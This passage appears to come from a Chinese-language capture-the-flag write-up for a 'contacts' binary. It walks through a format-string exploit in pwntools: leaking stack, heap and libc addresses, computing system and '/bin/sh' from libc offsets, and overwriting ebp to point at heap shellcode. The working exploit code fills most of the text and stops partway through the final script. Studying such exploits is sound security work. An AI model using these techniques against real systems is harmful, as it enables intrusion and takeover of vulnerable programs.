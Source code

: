 ```
data = display().split(b"Description:")[1].split(b'.')
ebp_addr = int(data[0],16)
heap_addr = int(data[1],16)
__libc_start_main_address = int(data[2],16)
print(data[0],data[1],data[2])
print("[*] ebp addr is ", hex(ebp_addr))
print("[*] heap_addr is ", hex(heap_addr))
print("[*] start_main is ",hex(__libc_start_main_address))

__libc_start_main_address  -= 247

offset_system = 0x0003a950
offset_str_bin_sh = 0x15912b
offset___libc_start_main = 0x00018550
libc_base = __libc_start_main_address -offset___libc_start_main

system_address =libc_base + offset_system
bin_sh = libc_base + offset_str_bin_sh
print('[*] __libc_start_main_address is', hex(__libc_start_main_address))
print('[*] libc base is', hex(libc_base))
print('[*] system_address is', hex(system_address))
print('[*] bin_sh is', hex(bin_sh))
```
![](./photo/13.jpg)
### 2.4 修改ebp为堆上shellcode地址
ebp地址内容修改为堆上description执行地址。
payload=fmtstr_payload(6,{ebp_addr:heap_addr-4})
print payload
### 2.5 exp代码
```
from pwn import*
from LibcSearcher import LibcSearcher
#context.log_level ='debug'
io = process('./contacts')
io.recv()
def create(name, phone, number, payload):
    print('$$$$$$$$$$$$$$$$$$$$$$$$')
    io.sendline('1')
    io.recvuntil('Name:')
    io.sendline(name)
    io.recvuntil('Enter Phone No:')
    io.sendline(phone)
    io.recvuntil('Length of description:')
    io.sendline(number)
    io.recvuntil('Enter description:')
    io.sendline(payload)
    io.recv()

def display():
    io.sendline('4')
    


create('111', '234324234', '200',b'%11$p.%6$p.%31$p.aaaa')
```